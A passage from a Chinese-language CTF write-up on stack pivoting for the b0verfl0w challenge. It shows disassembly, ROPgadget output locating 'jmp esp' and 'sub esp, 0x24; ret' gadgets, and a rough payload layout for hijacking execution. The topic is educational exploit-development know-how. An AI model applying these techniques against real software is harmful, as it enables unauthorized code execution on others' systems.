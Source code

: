  ```java 
   0x804859f <vul+132>: leave  
   0x80485a0 <vul+133>: ret  

  ``` 
  
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
通过分析：溢出空间0x12的空间，也就是4个内存单元，地址随机化后，我们要利用栈溢出，只能先泄漏基址，空间有限所以不可能实现了，那么此时就用到��stack pivoting将栈劫持到一个已知空间中，而且有足够构造payload的空间。那么这个空间在哪呢？继续看 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=f8bd1770-0ee1-4cd8-9da2-d7d0ce1d0c7a.png  '栈溢出技巧（上）') 
可以发现fgets并不影响esp，至始至终 esp的值没有变，而且esp中存储的依然是&s，也就是s的栈地址，那么我们就可以通过esp可以直接找到s的位置，不需要实际知道具体的地址数值，直接jmp esp就可以，使得eip指向0xffffbe38（劫持栈，然后控制eip）。那么payload放在哪里？当然是s的栈地址处，也就是ebp-0x20。此时可以这样设想，控制esp来指向我们的payload，然后通过jmp esp跳到payload处，然后通过ret指令控制eip，进而执行payload。那么需要做的事情就是：一、找到通过jmp esp的gadgets二、控制esp指向的地址就是payload的地址，也就是s的栈地址三、esp的操作完成后，控制eip进行执行payload 
 
#### 思路分析 
这里先把用到的gadget找到 
 
 ```java 
  pwn@pwn-PC:~/Desktop/pwntips$ ROPgadget --binary b0verfl0w --only 'jmp|ret'
Gadgets information
============================================================
0x080483ab : jmp 0x8048390
0x080484f2 : jmp 0x8048470
0x08048611 : jmp 0x8048620
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 6
pwn@pwn-PC:~/Desktop/pwntips$ ROPgadget --binary b0verfl0w --only 'sub|ret'
Gadgets information
============================================================
0x0804836a : ret
0x0804847e : ret 0xeac1
0x08048500 : sub esp, 0x24 ; ret

Unique gadgets found: 3

  ``` 
  
然后通过ret将gadgets数据变成指令进行执行（eip中存储的是某一条指令的地址，地址，所以你直接把指令写在栈上，通过ret没办法执行）这里就需要栈溢出了通过栈溢出，（在当前栈帧，也就是你的payload是在当前栈上搭建的，需要此栈对应的leave ret 来进行栈溢出），不多说，很简单大体捋一下流程：粗略构造一下 
 
 ```java 
  ----------------
payload
----------------
fake ebp
----------------
jmp esp addr
----------------
...
----------------

  ``` 
  